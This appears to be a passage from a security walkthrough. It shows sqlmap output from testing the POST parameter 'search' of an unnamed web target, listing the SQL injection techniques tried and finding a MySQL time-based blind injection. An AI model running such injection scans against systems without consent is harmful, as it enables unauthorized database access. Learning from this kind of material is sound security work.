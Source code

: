 This will spill out the below output
```code
        ___                                                                                                                                                           
       __H__                                                                                                                                                          
 ___ ___[)]_____ ___ ___  {1.4.8#stable}                                                                                                                              
|_ -| . [.]     | .'| . |                                                                                                                                             
|___|_  [(]_|_|_|__,|  _|                                                                                                                                             
      |_|V...       |_|   http://sqlmap.org                                                                                                                           
                                                                                                                                                                      
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local,
 state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program                                       
                                                                                                                                                                      
[*] starting @ 03:59:42 /2020-08-27/                                                                                                                                  
                                                                                                                                                                      
[03:59:42] [INFO] parsing HTTP request from 'sql.txt'                                                                                                                 
[03:59:43] [INFO] testing connection to the target URL                                                                                                                
[03:59:43] [INFO] checking if the target is protected by some kind of WAF/IPS                                                                                         
[03:59:43] [INFO] testing if the target URL content is stable                                                                                                         
[03:59:43] [INFO] target URL content is stable                                                                                                                        
[03:59:43] [INFO] testing if POST parameter 'search' is dynamic                                                                                                       
[03:59:43] [WARNING] POST parameter 'search' does not appear to be dynamic                                                                                            
[03:59:43] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable                                                                
[03:59:43] [INFO] testing for SQL injection on POST parameter 'search'                                                                                                
[03:59:43] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'                                                                                          
[03:59:43] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'                                                                                  
[03:59:44] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'                                                         
[03:59:44] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'                                                                                       
[03:59:44] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                 
[03:59:44] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'                                                                                 
[03:59:44] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'   
[03:59:44] [INFO] testing 'Generic inline queries'                                 
[03:59:44] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'             
[03:59:44] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:59:44] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:59:45] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'     
[04:00:05] [INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
```